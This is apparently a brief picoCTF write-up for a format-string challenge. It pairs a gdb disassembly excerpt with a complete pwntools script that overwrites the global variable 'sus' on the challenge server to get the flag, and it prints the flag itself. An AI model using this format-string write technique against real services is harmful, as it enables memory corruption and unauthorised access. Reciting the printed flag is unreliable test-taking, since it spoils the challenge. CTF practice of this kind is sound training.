 ```gdb
   0x000000000040125f <+105>:   call   0x4010a0 <putchar@plt>
   0x0000000000401264 <+110>:   mov    0x2dfd(%rip),%rax        # 0x404068 <stdout@GLIBC_2.2.5>
   0x000000000040126b <+117>:   mov    %rax,%rdi
   0x000000000040126e <+120>:   call   0x4010e0 <fflush@plt>
   0x0000000000401273 <+125>:   mov    0x2de7(%rip),%eax        # 0x404060 <sus>
   0x0000000000401279 <+131>:   cmp    $0x67616c66,%eax
```
- The hint suggests the use of pwntools, so I should probably try using that.
- `# 0x404060 <sus>` this is the address of `sus`
```python3
from pwn import *

context.binary = ELF('./goof')  # Local binary for analysis

# target
HOST = 'rhea.picoctf.net'
PORT = 61833

# Function to send payload to target and return the output
def exec_fmt(payload): 
    conn = remote(HOST, PORT)  # Establish connection
    conn.sendline(payload)     # Send payload
    response = conn.recvall()  # Get all output
    conn.close()               # Close connection
    return response

# Automated format string analysis
autofmt = FmtStr(exec_fmt)
offset = autofmt.offset  # Determine stack offset

# Addresses and values to write
writes = {
    0x404060: 0x67616c66  # Address of `sus` and target value (`flag`)
}

# Generate payload using the detected offset
payload = fmtstr_payload(offset, writes)

# Connect to the remote server
p = remote(HOST, PORT)

# Send the crafted payload
p.sendline(payload)

# Receive and print the output
flag = p.recvall().decode()
print("Flag Output:")
print(flag)
```
- `picoCTF{f0rm47_57r?_f0rm47_m3m_f43e6ccc}`
